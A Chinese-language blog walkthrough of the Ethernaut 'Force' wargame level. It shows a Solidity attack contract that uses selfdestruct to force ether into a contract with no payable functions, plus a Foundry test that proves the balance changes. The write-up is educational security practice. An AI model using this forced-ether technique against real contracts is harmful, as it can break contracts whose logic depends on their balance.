

# Foundry 通关 Ethernaut（6）— Force

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

使合约的余额大于0

## 漏洞合约

先来看漏洞合约本身：

这个合约只有一个合约结构，什么逻辑都没有，既没有 receive，也没有 fallback

（整体概括而言就是拒绝合作哈哈哈）

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\\_/\\   /
    ____/ o o \\
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

## 思路

由于这个合约没有函数逻辑，那么怎么向合约强制转账呢？

这里可以用到 selfdestruct 的逻辑，这相当于一个自毁的特性

```solidity
selfdestruct(addr); 
```

这行代码可以销毁当前合约并向指定地址强制转账合约剩余的余额，类似于一个紧急避险的逻辑

因此，我们可以给一个攻击合约存款，然后通过 seledestruct 注入目标合约，使其余额增加

## foundry 复现

### 1. 攻击合约

```solidity
contract Attack{
    address public ForceContract;

    constructor(address _address){
        // 目标合约地址
        ForceContract =  _address;
    }
    
    // 存款并自毁
    function attack() public payable{
        selfdestruct(payable(ForceContract));
    }
}
```

### 2. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {Force,Attack} from "../src/Force.sol";

contract ForceTest is Test {
    Force public force;
    Attack public attackContract;

    function setUp() external {
        force = new Force();
        attackContract = new Attack(address(force));
    }

    function test_attack() public {
        console.log("before",address(force).balance);
        attackContract.attack{value: 1 ether}();
        console.log("after",address(force).balance);
    }
}
```

### 2. 测试

终端输入

```solidity
forge test --match-path test/Force.t.sol -vvvv
```



我们可以看到，攻击后，Force合约余额增加

